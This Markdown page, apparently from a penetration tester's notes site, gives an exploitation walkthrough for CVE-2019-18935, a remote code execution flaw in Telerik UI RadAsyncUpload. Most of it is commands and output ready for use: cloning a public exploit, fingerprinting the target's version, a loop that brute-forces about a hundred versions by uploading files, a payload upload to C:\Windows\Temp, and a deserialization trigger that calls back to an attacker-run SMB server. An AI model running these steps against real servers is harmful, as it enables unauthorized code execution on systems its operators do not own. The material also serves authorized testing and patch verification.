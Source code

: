 ```yaml
---
title : "CVE-2019-18935"
# pre : ' '
description : "Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution."
date : 2021-01-18T13:14:31+01:00
# hidden : true
# draft : true
weight : 170
# tags : ['']
---
```


---

## Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution

{{%resources fa_icon_class="far fa-file-pdf" pattern=".*(pdf)"/%}}

## Installation

```plain
git clone https://github.com/noperator/CVE-2019-18935.git
```

### Confirm that the file upload handler is registered

```plain
curl -sk <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }
```

### Check version of the software installed

### Without authentication

If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version buried somewhere in the HTML source of the application's home page. The location of the version string isn't consistent, though, so the best method of locating it is to use Burp to search for the regular expression ```20[0-9]{2}(\.[0-9]*)+``` (and make sure you check the "Regex" box). You can also accomplish this with cURL:

```plain
curl -skL <host> | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'
```

If that doesn't work, you can alternatively search for the string ```<script src="/WebResource``` to identify any JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its ```Last-Modified``` date in the HTTP response header; that date should roughly match the release date of the software. For example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013) will read ```Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT``` in the HTTP response header for that file.

### With authentication

If the application does require authentication, then you may be able to determine the software version via brute force. Since uploading a file with RadAsyncUpload requires providing the correct version of Telerik UI, you can use Paul Taylor's [RAU_crypto](https://github.com/bao7uo/RAU_crypto) exploit to submit file upload requests with known-vulnerable versions until you find one that works:

```plain
echo 'test' > testfile.txt
for VERSION in 2007.1423 2007.1521 2007.1626 2007.2918 2007.21010 2007.21107 2007.31218 2007.31314 2007.31425 2008.1415 2008.1515 2008.1619 2008.2723 2008.2826 2008.21001 2008.31105 2008.31125 2008.31314 2009.1311 2009.1402 2009.1527 2009.2701 2009.2826 2009.31103 2009.31208 2009.31314 2010.1309 2010.1415 2010.1519 2010.2713 2010.2826 2010.2929 2010.31109 2010.31215 2010.31317 2011.1315 2011.1413 2011.1519 2011.2712 2011.2915 2011.31115 2011.3.1305 2012.1.215 2012.1.411 2012.2.607 2012.2.724 2012.2.912 2012.3.1016 2012.3.1205 2012.3.1308 2013.1.220 2013.1.403 2013.1.417 2013.2.611 2013.2.717 2013.3.1015 2013.3.1114 2013.3.1324 2014.1.225 2014.1.403 2014.2.618 2014.2.724 2014.3.1024 2015.1.204 2015.1.225 2015.2.604 2015.2.623 2015.2.729 2015.2.826 2015.3.930 2015.3.1111 2016.1.113 2016.1.225 2016.2.504 2016.2.607 2016.3.914 2016.3.1018 2016.3.1027 2017.1.118 2017.1.228 2017.2.503 2017.2.621 2017.2.711 2017.3.913; do
    echo -n "$VERSION: "
    python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
done
```

When the file upload succeeds, you'll see a JSON response containing some encrypted data about the uploaded file:

```plain
{"fileInfo":{"FileName":"<NAME>","ContentType":"text/html","ContentLength":<LENGTH>,"DateJson":"<DATE>","Index":0}, "metaData":"VGhpcyBpc24ndCByZWFsIGRhdGEsIGJ1dCB0aGUgQmFzZTY0LWVuY29kZWQgZGF0YSBsb29rcyBqdXN0IGxpa2UgdGhpcy4=" }
```

## Examples

### Check version

```plain
$ curl -skL https://example.com/ | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'              
2015.2.623.40
2015.2.623.40
2015.2.623.40
2015.2.623.40
```

### Upload test file

```plain
$ python3 CVE-2019-18935.py -p test.txt -t -f 'C:\Windows\Temp' -u https://www.example.com/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623
[*] Local payload name:  test.txt
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1610022896.082644.txt

{'fileInfo': {'ContentLength': 5,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1610022896.082644.txt',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2015.2.623.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1610022896.082644.txt.tmp'}}

[*] Heads up! Payload was renamed on target from "1610022896.082644.txt" to "1610022896.082644.txt.tmp". Will adjust automatically while deserializing; otherwise, if deserializing manually with the "-d" option, use the "-r" option to specify the accurate, renamed payload on target.
```

### Triggering SMB-outbound

```plain
python3 CVE-2019-18935.py -u https://<host>/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623 -s <ip-of-smb-server> -d
```

## URL List

- [Labs.bischopfox.com - RCE explanation](https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-18935)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-18935)
